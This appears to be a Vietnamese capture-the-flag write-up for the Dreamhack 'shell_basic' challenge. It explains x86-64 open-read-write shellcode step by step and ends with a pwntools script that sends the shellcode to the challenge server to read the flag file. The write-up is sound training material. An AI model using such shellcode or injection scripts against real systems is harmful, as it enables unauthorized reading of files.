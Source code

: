 ![shell_basic dreamhack](image.png)

# 0x00 Tổng quan 
- Files được cho: `shell_basic`, `shell_basic.c`
- Không như các bài toán khác, đối với bài này, chúng ta cần phải viết shellcode để đọc flag tại `/home/shell_basic/flag_name_is_loooooong`

# 0x01 Shellcode? 
Shellcode là đoạn mã assembly, được chèn vào payload để thực hiện các mục đích khác nhau như lấy shell, đọc nội dung file, ... Với bài toán ở trên, mục đích chính của shellcode là đọc nội dung của file. Với loại shellcode này, mình sẽ gọi tắt là **orw shellcode (open-read-write shellcode)**.

Để viết được **orw shellcode**, chúng ta cần sử dụng các syscall của hệ thống. Dưới đây là các nội dung của các syscall cần thiết. 

| syscall   | rax       | arg0(rdi)     | arg1 (rsi)    | arg2 (rdx)    | 
| --------- | ------    |-----------    | -----------   | -----------   | 
| read      | 0x00      |unsigned int fd| char *buf     |size_t count   |
| write     | 0x01      |unsigned int fd|const char *buf|size_t count   |
| open      | 0x02      |const char *filename|int flags |umode_t mode    |

Chúng ta cùng đi phân tích cụ thể từng syscall để xem syscall đó yêu cầu những gì, nó thực hiện công việc gì. 

## 1. int fd = open("/tmp/flag", O_RDONLY, NULL)

Giả sử, đường dẫn của file cần đọc là `tmp/flag`. 3 tham số của syscall này là:
- arg0: `/tmp/flag`. Chúng ta cần đưa chuỗi này vào stack. Để làm được điều đó, ta sẽ convert chuỗi này qua mã hex rồi push vào stack. Do stack là cấu trúc (LIFO) và chỉ nhận 8 byte một lần push. Vì vậy ta sẽ tách **"/tmp/flag" = "/tmp/fla" + "g"**
    - "/tmp/fla" = 0x616c662f706d742f
    - "g" = 0x67
- arg1: File access mode 
    - O_RDONLY (Open read-only) -> `flag = 0`
    - O_WRONLY (Open write-only) -> `flag = 1`
    - O_RDWR (Open read/write) -> `flag = 2`
- arg2: Khi đọc file, chúng ta không sử dụng tham số này. Vậy `arg2 = 0`
- rax: Để gọi syscall open, `rax = 0x02`

Cuối cùng, ta sẽ viết đoạn mã assembly để thực hiện các công việc ở trên 
```asm
push 0x67                       ; "g"
mov rax, 0x616c662f706d742f     ; "/tmp/fla"
push rax            
mov rdi, rsp                    ; rdi = "/tmp/flag"
xor rsi, rsi                    ; rsi = 0 ; O_RDONLY
xor rdx, rdx                    ; rdx = 0
mov rax, 0x02                   ; rax = 2 ; syscall_open
syscall                         ; open("/tmp/flag", O_RDONLY, NULL)
```

## 2. read(fd, buf, 0x30) 

Giả sử, chúng ta muốn đọc 0x30 bytes từ tệp dữ liệu. 3 tham số của syscall này đó là: 
- arg0: `fd`. Khi mở xong file, giá trị của `fd` được lưu trong thanh ghi `rax`. Vì vậy `rdi = rax`.
- arg1: `rsi` sẽ trỏ tới địa chỉ, nơi dữ liệu được đọc từ file lưu trữ. Do chúng ta sẽ đọc 0x30 bytes, `rsi = rsp - 0x30`.
- arg2: `rdx` sẽ bằng 0x30, số bytes dữ liệu được đọc từ tệp. 
- rax: Để gọi syscall này, `rax = 0x00`

Đoạn mã assembly thực hiện các công việc trên là
```asm
mov rdi, rax    ; rdi = fd
mov rsi, rsp    ;  
sub rsi, 0x30   ; rsi = rsp - 0x30 ; buf 
mov rdx, 0x30   ; rdx = 0x30
xor rax, rax    ; rax = 0
syscall         ; read(fd, buf, 0x30)
```

## 3. write(1, buf, 0x30)

Khi gọi syscall write, `rsi` và `rdx` không thay đổi.
- arg0: `fd`. Do đầu ra sẽ ở dạng xuất chuẩn, `rdi = 0x1`
- arg1: giữ nguyên như syscall read
- arg2: giữ nguyên như syscall read
- rax: Để gọi syscall, `rax = 0x01` 

Đoạn mã assembly thực hiên các công việc trên là
```asm
mov rdi, 0x01   ; rdi = 1 ; fd = stdout
mov rax, 0x01   ; rax = 1 ; syscall_write
syscall         ; write(fd, buf, 0x30)
```

# 0x02 Framework Pwntools
![Alt text](image-1.png)

Để thực hiện nhanh chóng các ý tưởng của chúng ta ở trên, framework pwntools có `shellcraft` để làm điều đó. 

```python
shellcode =  shellcraft.open('/tmp/flag')
shellcode += shellcraft.read('rax', 'rsp', 0x30)
shellcode += shellcraft.write(0x01, 'rsp', 0x30)
```

# 0x03 Shell_Basic

Với toàn bộ kiến thức ở trên, chúng ta có thể dễ dàng giải quyết bài toán này bằng 2 cách viết shellcode 

```python
#!/usr/bin/env python3

from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 20634
context.arch = 'amd64'
context.binary = elf = ELF('./shell_basic', checksec = False)
# p = process(elf.path)
p = remote(HOST, PORT)

path = '/home/shell_basic/flag_name_is_loooooong' 

shellcode1 = asm(
'''
push 0
mov rax, 0x676e6f6f6f6f6f6f
push rax
mov rax, 0x6c5f73695f656d61
push rax
mov rax, 0x6e5f67616c662f63
push rax
mov rax, 0x697361625f6c6c65
push rax   
mov rax, 0x68732f656d6f682f
push rax    
mov rdi, rsp
xor rsi, rsi 
xor rdx, rdx 
mov rax, 2
syscall 
mov rdi, rax 
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0
syscall 
mov rdi, 1
mov rax, 1 
syscall 
''')

shellcode2 = shellcraft.open(path)
shellcode2 += shellcraft.read('rax', 'rsp', 0x30)
shellcode2 += shellcraft.write(0x01, 'rsp', 0x30) 

p.sendline(asm(shellcode2))

p.interactive()
```

# 0x04 Reference 
- https://learn.dreamhack.io/50 
